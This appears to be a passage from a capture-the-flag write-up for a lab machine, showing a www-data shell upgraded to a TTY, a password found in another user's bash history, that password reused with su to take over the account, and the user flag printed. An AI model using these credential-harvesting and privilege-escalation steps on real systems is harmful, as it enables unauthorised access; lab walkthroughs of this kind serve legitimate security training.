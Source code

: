 upgrade to a tty

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

there is a drac user in /home

```
www-data@ide:/home$ ls -la /home/
ls -la /home/
total 12
drwxr-xr-x  3 root root 4096 Jun 17  2021 .
drwxr-xr-x 24 root root 4096 Jul  9  2021 ..
drwxr-xr-x  6 drac drac 4096 Aug  4  2021 drac
```

we see a mysql login in drac's bash history

```
cat /home/drac/.bash_history
```

```
cat .bash_history
mysql -u drac -p 'Th3dRaCULa1sR3aL'
```

running it does not work

```
www-data@ide:/home/drac$ mysql -u drac -p 'Th3dRaCULa1sR3aL'
mysql -u drac -p 'Th3dRaCULa1sR3aL'

Command 'mysql' not found, but can be installed with:

apt install mysql-client-core-5.7   
apt install mariadb-client-core-10.1

Ask your administrator to install one of them.

www-data@ide:/home/drac$
```

trying the mysql password to change user to the draq user works

```
www-data@ide:/home/drac$ su drac
su drac
Password: Th3dRaCULa1sR3aL

drac@ide:~$
```

/home/drac/user.txt

```
02930d21a8eb009f6d26361b2d24a466
```
